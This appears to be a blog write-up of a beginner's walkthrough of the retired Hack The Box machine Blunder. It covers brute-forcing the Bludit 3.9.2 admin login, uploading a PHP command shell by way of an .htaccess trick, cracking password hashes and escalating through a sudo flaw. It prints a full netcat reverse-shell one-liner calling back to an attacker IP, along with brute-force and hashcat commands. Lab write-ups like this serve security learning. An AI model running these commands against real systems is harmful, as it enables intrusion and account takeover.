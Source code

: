 ```yaml
---
id: 229
title: 'Writeup - Hack The Box Blunder'
date: '2020-10-30T19:25:21+00:00'
author: Lukas Lichtl
layout: post
guid: 'https://embed-me.github.io/?p=229'
permalink: /htb-blunder/
wp_featherlight_disable:
    - ''
categories:
    - 'Hack the Box'
    - 'Penetration Testing'
tags:
    - Blunder
    - 'Hack The Box'
    - HTB
    - 'Penetration Testing'
    - Pentesting
---
```


## Intro

![_config.yml]({{ site.baseurl }}/images/htb_blunder/blunder.png)

The following post will describe how I hacked the previously retired Blunder Box. However, I am not an experienced Pentester, therefore take everything I say with a grain of salt. Now let’s have some fun with this nice Linux Box.

## Setup

As usual add the box to the */etc/hosts* file. This makes our lives easier, since we do not need to remember the IP-Address.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/hosts_file.png)

## Recon

In order to discover potential attack vectors, we have to enumerate the target using nmap.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/nmap.png)

Apache webserver is running on port 80 and we are able to visit the website hosted on the machine using an ordinary browser. After playing around a little bit – there is not a lot that can be done – it looks like a minimalistic blog.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/blog.png)

In order to find out if there are any directories or files on the webserver which are not linked we can make use of [gobuster](https://tools.kali.org/web-applications/gobuster). There are many other alternatives, even tools that provide a GUI (eg.: [dirbuster](https://tools.kali.org/web-applications/dirbuster)).

Just a few seconds later, we already found a some interesting files.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/gobuster.png)

Implementing REP (Robots-Exclusion-Standard-Protocol), *robots.txt* is also often a source of hidden paths which might not be covered by an ordinary wordlist, however, in this case it is useless as it contains nothing.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/robots.png)

The only really useful information that I was able to fetch was the username “*fergus*” from within a text file called *todo.txt*.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/fergus_user.png)

The CMS used is called [Bludit ](https://github.com/bludit/bludit)and with a closer look at the sites html header, the exact version (**3.9.2**) can be determined.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/bludit_version.png)

Now that we have all the information that we can get (at least for now), it is time to find vulnerabilities. After the last step, we know some of the specifics of the CMS and [exploit-db](https://www.exploit-db.com) offers some usable results.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/bludit_vulnerabilities.png)

Let’s use the available python script to bruteforce the passwords. Seems like it simply parses the CSRF token from the HTML, passes it in the request header and finally issues the login request with the provided username and password. In order to check if the login was successful the script checks for “*/admin/dashboard*“. The most promising usernames are probably *“admin*” and “*fergust*“. In order to guess the password *rockyou.txt* can be worth a shot.

``` bash
python3 blunder_bf.py -l http://htb.blunder/admin/login.php -p /usr/share/wordlists/rockyou.txt -u users.txt
```

![_config.yml]({{ site.baseurl }}/images/htb_blunder/brute_force_1.png)

However, I had to give up after some time since I was not able to find a working combination. The password has to be somewhere on the webpage. Let’s try the wordlist generator [cewl](https://tools.kali.org/password-attacks/cewl) to generate a password-list with the content of the page and repeat the above process.

``` bash
cewl http://htb.blunder > passwords.txt
```

``` bash
python3 blunder_bf.py -l http://htb.blunder/admin/login.php -p passwords.txt -u users.txt
```

![_config.yml]({{ site.baseurl }}/images/htb_blunder/brute_force_2.png)

Finally success, we have the credentials and we can login as user “*fergus*“.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/admin_dashboard.png)

Using the browser again, we are in the admin dashboard. Btw, I really like the “visits curve” ;-).

There is not a lot we can do due to missing permissions, however, it seems like we are able to post and upload files. Interesting!, especially because there was a path traversal attack in the exploit database.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/fileupload_filter.png)

After playing a round a little bit, it seems like there are two checks in the code. First, before uploading – in the browser – and also later on the backend. Selecting a file with the file-ending .gif and altering the request won’t work. Uploading a file with the allowed file endings makes no sense, since then they won’t be executed. Also the file endings provided do not look promising for any attack that I am aware of (except maybe XSS for the svg, but that does not help right now). What if the backend verifies the file header, not the file-ending. I ended up downloading a random GIF file from google to read the files magic header. Btw, there is also a huge database available online: [https://www.garykessler.net/library/file\_sigs.html](https://www.garykessler.net/library/file_sigs.html)

![_config.yml]({{ site.baseurl }}/images/htb_blunder/gif_header.png)

I tried to add the magic header in front of the php code, however, was not able to trick the server into accepting the file.

After almost giving up, I stumbled upon the following issue in git: <https://github.com/bludit/bludit/issues/1081>  
The trick of the exploit was to upload a “*.htaccess*” file which switches off the RewriteEngine (<https://httpd.apache.org/docs/current/howto/htaccess.html>). The following lines show the corresponding request.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/exploit_1.png)

After that we are able to upload the “*expoit.php*” file as follows. It will execute commands provided with the “q” parameter. This allows for more flexibility to structure the reverse shell code.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/exploit.png)

I ended up using the following reverse shell.

``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.41 4444 >/tmp/f
```

As soon as the payload executed, the attack machines listener got the connection to the target.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/reverse_shell_listener.png)

Poking around a little, I figured that reading the “*user.txt*” flag was not possible since the process was running as “*www-data*” user. We have to perform privilege escalation in order to get to the flag.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/www-data_user.png)

On the target machine, the following path looked promising. A “*users.php*” file was present, in it two hashes for the “*admin”* and the “*hugo”* users. Both salted, however.

``` bash
/var/www/bludit-3.9.2/bl-content/databases
```

I had to try my luck on the admin user credentials, so I identified the hash using [hash-identifier](https://tools.kali.org/password-attacks/hash-identifier).

![_config.yml]({{ site.baseurl }}/images/htb_blunder/hash_identifier.png)

Looking through the source code of Bludit in github, indeed, the password is for this version is of the form *sha1(password.salt)*:

![_config.yml]({{ site.baseurl }}/images/htb_blunder/hash_git.png)

However, due to the salted password, it is not possible to use a rainbow table… I tried to crack it using [hashcat](https://tools.kali.org/password-attacks/hashcat), but after some time I had to give up.

``` bash
hashcat --hex-salt --hash-type 110 -a 3 admin.hash /usr/share/wordlists/rockyou.txt
```

Back on the Blunder Box, I found another path to a updated newer version of Bludit that I previously missed.

``` bash
/var/www/bludit-3.10.0a/bl-content/databases
```

It also contains a hash, however it seems like no salt is used. Therefore rainbowtables can be used!

![_config.yml]({{ site.baseurl }}/images/htb_blunder/hash_without_salt.png)

Using [CrackStation](https://crackstation.net/) I was able to crack the hash in a matter of seconds. The credentials are “*hugo:Password120*“.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/hugo_user.png)

Aaaaaaaand we are able to grab the first flag in user.txt!

``` bash
90c8********************7f0d
```

## Getting root

However, our current user “*hugo”* cannot make use of sudo and does not have permissions to grab the *root.txt* file.

![_config.yml]({{ site.baseurl }}/images/htb_blunder/sudo_version.png)

Googling for sudo 1.8.25p1 led me to the following exploit on [exploit-db](https://www.exploit-db.com/exploits/47502) (again).

In order for the attack to work, I had to spawning a TTY Shell using python.

``` bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

After that I was able to exploit the vulnerability mentioned above in order to get root!

![_config.yml]({{ site.baseurl }}/images/htb_blunder/privilage_escalation_root.png)

Finally, the last flag in */root/root.txt* can be grabbed. ***S******uccess!***

``` bash
5495********************cf40
```

This box really was fun, and for me as a beginner, the challenge was quite hard to be honest. However, finishing a box is always a nice experience and you definitely get better and better every time.